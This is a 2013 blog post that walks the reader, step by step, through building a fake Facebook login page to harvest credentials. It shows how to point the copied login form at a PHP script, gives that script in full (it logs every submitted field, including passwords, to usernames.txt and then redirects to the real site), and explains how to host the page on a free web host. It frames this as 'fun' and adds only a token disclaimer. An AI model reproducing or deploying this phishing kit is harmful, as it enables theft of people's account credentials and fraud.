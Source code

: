 ```yaml
---
layout: post
title: "PHISHING"
date: 2013-05-31 15:50
comments: true
categories: 
author: hitech_gosain
---
```

Before we actually start phishing………. here is a brief introduction about what phishing is…

Phishing is a scamming method used to get personal information.. .

i.e. the act of acquiring private or sensitive data from personal computers for use in fraudulent activities.


{% img http://www.hoax-slayer.com/images/phishing-scammer.jpg %}

Here are steps to have some fun:-

1. Open http://www.facebook.com on any net browser .

2. Right click on the blank space of the login page, click on ‘view page source’ option.

3. A screen filled with codes will appear.

4. Now press ctrl+a and copy the whole source to notepad.

5. Now press ctrl+f and search for word ‘action’ in the source.

. Replace the selected text written in quotes with ‘post.php’  in the above image .

action=”https://www.facebook.com/login.php?login_attempt=1&#8243;

After replacement :

action=”post.php”

7. Now save the file with ‘.html’ extension. For example : facebook.html

8. Copy paste the following script to notepad, edit the contents of 2nd line in the script

“header(‘Location:Website to phish’);”

Enter the name of the website you wish to phish , in our case http://www.facebook.com

After replacement: “header(‘Location: http://www.facebook.com);” , and save file with the name ‘post’ and .php extension.

?php
header (‘Location:Website to Phish’);
$handle = fopen(“usernames.txt”, “a”);
foreach($_POST as $variable => $value) {
   fwrite($handle, $variable);
   fwrite($handle, “=”);
   fwrite($handle, $value);
   fwrite($handle, “\r\n”);
}
fwrite($handle, “\r\n”);
fclose($handle);
exit;
?>

9. Now register to any free web hosting site. For example : www.my3gb.com

10. Upload the two files created above, one with .html extension(as per our example : facebook.html) and the other post.php

on your account on free web hosting site.

11. If you register on my3gb.com , to see your uploaded files click on ‘file manager’.

12. Now right click on file with .html extension(facebook.html) that you uploaded shortly, and select “copy link location”. Then paste the link on the address bar in new tab.

13. A page similar to facebook login page will load , but the difference will only be seen in the address bar.

ake a look at the address bar it says “neophytes.my3gb.com/facebook.html”, a genuine facebook page will have “www.facebook.com” in the address bar.

After victim enters his/her username and password , this is what he/she will see.

A new file usernames.txt is created automatically when someone logs on the phishing page you just created. Usernames.txt contains victim’s username and password. You can see the new file usernames.txt by refreshing the page.

P.S. – my3gb.com will delete your account within 24hrs after u try the above phishing….

So the above trick is just for you to see one aspect of Hacking….

Do not use it for malicious purposes.


